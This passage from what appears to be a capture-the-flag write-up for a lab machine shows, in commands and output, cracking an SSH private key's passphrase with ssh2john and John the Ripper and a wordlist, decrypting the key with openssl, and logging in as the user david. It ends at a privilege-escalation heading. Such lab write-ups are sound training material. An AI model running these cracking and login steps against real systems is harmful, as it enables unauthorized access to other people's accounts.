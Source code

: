 We can use ssh2john to crack the SSH private key:
```shell
❯ find / -name ssh2john.py 2>/dev/null
/usr/share/john/ssh2john.py
❯ python /usr/share/john/ssh2john.py id_rsa > id_rsa.john
❯ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-10-17 19:10) 0.4694g/s 6733Kp/s 6733Kc/s 6733KC/sa6_123..*7¡Vamos!
Session completed
```

The password is `hunter` so we can now decrypt this key and create a copy of the key that's not passphrase protected:
```shell
❯ openssl rsa -in id_rsa -out id_rsa_david
Enter pass phrase for id_rsa:
writing RSA key
```

Alternatively, but not recommended, since you won't have a copy of the decrypted key, is to simply enter the passphrase on prompt:
```shell
ssh -i id_rsa david@10.10.10.165
```

## Shell over SSH

Now that we have the decrypted private key, we can use it to authenticate to the SSH service as the user david:
```shell
❯ ssh -i id_rsa_david david@10.10.10.165
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ cut -c-5 user.txt
7db0b
```

# Privilege Escalation: david -> root
## Enumeration
